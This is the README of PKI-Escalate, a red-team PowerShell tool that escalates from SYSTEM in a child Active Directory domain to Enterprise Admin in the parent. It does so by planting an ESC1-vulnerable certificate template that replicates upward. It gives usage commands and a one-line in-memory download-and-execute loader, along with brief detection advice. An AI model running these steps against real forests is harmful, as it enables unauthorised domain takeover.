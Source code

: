 # PKI-Escalate

## Overview

PKI-Escalate is a tool designed to abuse the overly permissive relationship between CHILD and PARENT domains in regard to their certificate services containers within Active Directory. Modifications at the CHILD domain are propagated up to the PARENT domain, which can lead to the SYSTEM user in the CHILD domain being able to add a malicious certificate template, vulnerable to [ESC1](https://linl.cok), for a user of their choosing. This then gets replicated up to the PARENT domain, and thus, a certificate can be requested against the PARENT DC as any user, including Enterprise Administrators. 

Initially, I read about this technique on Andy Robbins Spectre Ops post - [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c) - which you should definitely check out! It goes into detail about how and why this attack is possible. I've provided a small overview below for more TLDR folks.

- Changes made to the CHILD domain objects related to the certificate service are replicated up to the PARENT domain.
- Certificate Templates are stored in the AD object `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld`.
- Published Certificate Templates, that is, those that are useable, are stored in the `certificateTemplates` value of the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container.
- Both of these are children of the `CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container. In the CHILD domain, the SYSTEM user has FULL CONTROL of this container. By default, there is no inheritance to the Certificate Templates and Enrollment Services containers, but with FULL CONTROL, we can add this.
- Changes made to this container by the SYSTEM user in the CHILD domain will be replicated up to the PARENT domain!

In essence, this allows us to:
 - Copy an existing, published template and modify it to be vulnerable to ESC1 (Enrolee supplies SAN in the certificate request).
 - Insert this template into the Certificate Templates container, so it is available for publishing.
 - Publish the certificate, allowing an arbitrary user in the CHILD domain to request certificates as any domain user in the parent domain.
 - Escalate from SYSTEM in the CHILD domain to Enterprise Administrator in the PARENT domain 😊

Vadims Podāns ([@Crypt32](https://twitter.com/Crypt32)) then provided the [method](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/) to perform the attack in an environment without ADCS installed, which involves installing the ADCS services on the CHILD domain and waiting for it to be replicated up the PARENT.

Both environments have been included for this initial release of the tool, though there are some caveats to be aware of in the [Limitations](https://github.com/heartburn-dev/PKI-Escalate#Limitations) section.

## Installation

PKI-Escalate is provided as a simple PowerShell script which can be imported:

```powershell
Import-Module .\PKI-Escalate.ps1
```

As with most things, it can also be loaded remotely into memory:
```powershell
IEX((New-Object System.Net.WebClient).downloadString('https://raw.githubusercontent.com/heartburn-dev/PKI-Escalate/master/PKI-Escalate.ps1))
```

## Usage Instructions

To escalate the user GANON and add a malicious certificate template called BADBOY:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY 
```

To escalate the user GANON and add a malicious certificate template called BADBOY to a domain without ADCS installed:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY -InstallAdcs -CAName NewCA
```

To remove a template that was installed using the exploit:
```powershell
Clear-Template -TemplateName BADBOY -CAName NewCA
```

## OPSEC Considerations

In terms of remediation, I don't have much information on this attack as I believe this functionality is inherent to the way ADCS works within a forest environment. That is to say, replication up and down is a necessity to allow CA functionality across domains. However, removing full control from the SYSTEM user, or disabling inheritance on the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container may stop a TA from being able to enable the certificate. 

A better use of time may be to concentrate on detection. Certificate Template changes are not everyday things that occur in an Active Directory environment and therefore deletions and additions should be closely monitored.

## Limitations

This tool was tested in three lab environments:

- ADCS installed on a dedicated ADCS machine in the PARENT domain;
- ADCS installed on the PARENT Domain Controller;
- ADCS not installed and performed as part of the script.

These were all Windows Server 2019 machines. Further testing is yet to be conducted on larger environments and different setups. For these, it is recommended to perform the attacks manually if the tool fails to handle an error. Please submit a pull request or issue if you encounter problems and I will endeavour to fix it. 

## Errors

During testing, I noted multiple errors and their corresponding reasons:


The exploit completes, but the resulting certificate cannot be used and returns `"KDC_ERROR_CLIENT_NOT_TRUSTED"`. This generally occurred as the ADCS had been installed recently and there was a time delay between the certificates being able to be used for authentication. Please bear this in mind for testing labs!


Similarly, the error `"KDC_ERR_PADATA_TYPE_NOSUPP"` was encountered, also a byproduct of just a recent install. This, I believe, is due to the PARENT DC not yet enrolling for a certificate that allows smartcard logons.


Both these errors should only occur in environments when you are testing and have recently installed the required services. Just give it a few hours and the certificates should be fine to authenticate with after 😊


## TODO List

- [x] Add the ability to completely remove the template rather than just unpublish
- [ ] Create a CSharp version
- [ ] Create BOF version
- [ ] Add handling for multiple CAs being installed
- [ ] Test on 2012/2016/2022
